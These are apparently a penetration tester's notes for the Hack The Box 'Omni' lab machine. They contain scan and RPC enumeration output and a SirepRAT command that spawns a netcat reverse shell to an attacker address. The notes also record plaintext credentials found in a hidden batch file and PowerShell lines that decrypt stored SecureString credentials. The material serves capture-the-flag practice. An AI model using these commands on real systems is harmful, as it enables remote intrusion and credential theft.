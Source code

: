 ```yaml
---
tags: [HTB]
title: Omni
created: '2020-09-29T08:52:43.755Z'
modified: '2020-11-10T17:32:47.650Z'
---
```


# Omni

```bash
Nmap 7.80 scan initiated Mon Aug 24 10:23:59 2020 as: nmap -Pn -sS -sV -p- -A -oN nmap.txt 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.091s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
```
## Information
- Windows IOT Device portal on port 8080
- dealing with some sort of rasberry pi type ctf
- once on portal could upload malicious payload 


## Potential attack vectors

1. port 8080
  - Running a webserver, asks for creds when visited
  - could try windows device portal default creds
  - could try auth bypass
  - brute force


2. port 135
  - RPC
  - impacket? RPCdump?

``` bash
Impacket v0.9.22.dev1+20200624.115240.5db5e4fa - Copyright 2020 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.10.204
Protocol: N/A 
Provider: N/A 
UUID    : DD59071B-3215-4C59-8481-972EDADC0F6A v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 3A9EF155-691D-4449-8D05-09AD57031823 v1.0 
Bindings: 
          ncalrpc:[LRPC-969e8bd0adcc18d488]
          ncalrpc:[ubpmtaskhostchannel]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLE6FC7DF673575CA3599FFF1D796AB]

Protocol: N/A 
Provider: N/A 
UUID    : D22895EF-AFF4-42C5-A5B2-B14466D34AB4 v1.0 
Bindings: 
          ncalrpc:[LRPC-76118920d558631e9e]

Protocol: N/A 
Provider: N/A 
UUID    : 0361AE94-0316-4C6C-8AD8-C594375800E2 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 6982A06E-5FE2-46B1-B39C-A2C545BFA069 v1.0 
Bindings: 
          ncalrpc:[umpo]

Protocol: N/A 
Provider: N/A 
UUID    : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
Bindings: 
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[LSA_IDPEXT_ENDPOINT]
```

3. IOT Device 
  - SirepRAT.py 
  - https://github.com/SafeBreach-Labs/SirepRAT

  ```
  python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "cmd.exe" --args "/c C:\nc.exe -e cmd.exe 10.10.14.162 5555 " --v

  ```

>hidden r.bat file in ```C:\windows\system32>cd C:\Program Files\WindowsPowerShell\Modules\PackageManagement```
>> contains username and password for device manager
  - net user app mesh5143
    net user administrator _1nt3rn37ofTh1nGz

- Able to enter commands on dashboard

https://sodocumentation.net/powershell/topic/2917/handling-secrets-and-credentials

#Decode Securestring
```$credential = Import-CliXml -Path C:\<path to file>```
```$plainPass = $credential.GetNetworkCredential().Password```
```$plainPass```



